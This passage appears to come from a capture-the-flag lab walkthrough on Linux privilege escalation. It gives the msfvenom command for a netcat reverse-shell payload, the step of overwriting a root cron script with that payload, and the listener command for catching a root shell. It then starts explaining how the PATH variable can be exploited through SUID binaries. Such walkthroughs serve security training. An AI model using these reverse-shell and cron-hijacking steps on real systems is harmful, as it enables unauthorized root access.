 **Let's do it!**
### Questions
  
*First, let's exit out of root from our previous task by typing **"exit"**. Then use **"su"** to swap to user4, with the password **"password"***  

 **Answer**: No answer needed

*Now, on our host machine- let's create a payload for our cron exploit using msfvenom.*   

 **Answer**: No answer needed

*What is the flag to specify a payload in msfvenom?*  
Look through the man page if unsure

 **Answer**: -p

Create a payload using: **"msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R"**  
Create this payload from the attackbox

 **Answer**: No answer needed

*What directory is the "autoscript.sh" under?*  
You can find this by looking at the crontab file. 

 **Answer**: /home/user4/Desktop

*Lets replace the contents of the file with our payload using: **"echo [MSFVENOM OUTPUT] > autoscript.sh"***
If this does not work make sure to add quotations around the msfvenom payload

 **Answer**: No answer needed

*After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using: **"nc -lvnp 8888"** and wait for our shell to land!*  

 **Answer**: No answer needed

*After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations!*

**Answer**: No answer needed

---
## Exploiting PATH Variable
### Instructions
**What is PATH?**

PATH is an environmental variable in Linux and Unix-like operating systems which specifies directories that hold executable programs. When the user runs any command in the terminal, it searches for executable files with the help of the PATH Variable in response to commands executed by a user.  

It is very simple to view the Path of the relevant user with help of the command **"echo $PATH"**.

**How does this let us escalate privileges?**

Let's say we have an SUID binary. Running it, we can see that it’s calling the system shell to do a basic process like list processes with "ps". Unlike in our previous SUID example, in this situation we can't exploit it by supplying an argument for command injection, so what can we do to try and exploit this?
